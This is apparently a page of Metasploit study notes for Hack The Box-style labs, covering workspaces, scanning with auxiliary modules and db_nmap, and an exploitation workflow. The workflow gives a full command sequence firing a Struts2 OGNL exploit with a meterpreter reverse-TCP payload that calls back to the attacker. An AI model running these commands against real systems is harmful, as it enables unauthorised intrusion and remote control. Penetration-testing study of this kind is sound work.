 ## 3. Workspace, Projects, and Databases
- Summary: Organize engagements with workspaces and loot management using msfdb.
- Observed commands: db_status, workspace -a redteam, workspace redteam, hosts, services, notes
- Concepts: PostgreSQL backend, data persistence, loot storage
- Tips: Enable db for automation; export results
- Example:
```bash
msfdb init
msfconsole
workspace -a htb_lab
workspace htb_lab
db_status
hosts
services
```

## 4. Discovery and Scanning
- Summary: Use auxiliary scanners and integrate with Nmap.
- Observed commands: use auxiliary/scanner/*, set RHOSTS, RPORT, THREADS; db_nmap
- Concepts: RHOSTS syntax (CIDR, ranges, files), THREADS concurrency
- Tips: Start wide, then pivot to targeted checks
- Example:
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.10.0/24
set PORTS 1-1000
set THREADS 64
run

db_nmap -sV -O 10.10.10.5
services -u
```

## 5. Exploitation Workflow
- Summary: From enumeration to exploitation with correct payloads and session handling.
- Observed commands: set PAYLOAD, set LHOST/LPORT, set TARGET, exploit -j, run -j, check
- Concepts: staged (windows/meterpreter/reverse_tcp) vs stageless (windows/meterpreter_reverse_tcp) payloads; listener jobs
- Tips: Use exploit -j to run in background; prefer reliable payloads for firewalled networks
- Example:
```bash
use exploit/multi/http/struts2_content_type_ognl
set RHOSTS 10.10.10.23
set TARGET 0
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
check
exploit -j
jobs
```
